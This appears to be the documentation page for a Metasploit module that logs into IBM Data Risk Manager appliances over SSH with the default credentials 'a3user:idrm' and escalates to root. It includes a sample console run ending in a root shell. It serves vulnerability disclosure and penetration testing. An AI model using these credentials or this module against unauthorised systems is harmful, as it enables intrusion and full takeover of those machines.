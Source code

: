 ## Vulnerable Application

This module abuses a known default password in IBM Data Risk Manager. The 'a3user' has the default password 'idrm' and allows an attacker to log in to the virtual appliance via SSH.
This can be escalated to full root access, as 'a3user' has `sudo` access with the default password.
At the time of disclosure this was an 0day, but it was later confirmed and patched by IBM. Versions <= 2.0.6.1 are confirmed to be vulnerable.

### Vulnerability information
For more information about the vulnerability, check the advisory at:
https://github.com/pedrib/PoC/blob/master/advisories/IBM/ibm\_drm/ibm\_drm\_rce.md

### Setup

The application is available to download as a Linux virtual appliance from IBM's website. You need to have a valid IBM contract to be able to do so.

## Verification Steps

Module defaults work very well, you should just need to set `RHOSTS`!

## Scenarios

A successful exploit will look like this:

```
msf exploit(linux/ssh/ibm_drm_a3user) > run
[*] 10.22.22.212:22 - Attempting to login to the IBM Data Risk Manager appliance...
[+] 10.22.22.212:22 - Login Successful (a3user:idrm)
[*] Found shell.
[*] Command shell session 5 opened (10.22.22.1:45489 -> 10.22.22.212:22) at 2020-04-22 12:10:13 +0700
[*] 10.22.22.212:22 - Escalating privileges to root, please wait a few seconds...
[+] 10.22.22.212:22 - Done, enjoy your root shell!
uname -a
Linux idrm-server.ibm.com 3.10.0-862.3.2.el7.x86_64 #1 SMP Tue May 15 18:22:15 EDT 2018 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
```
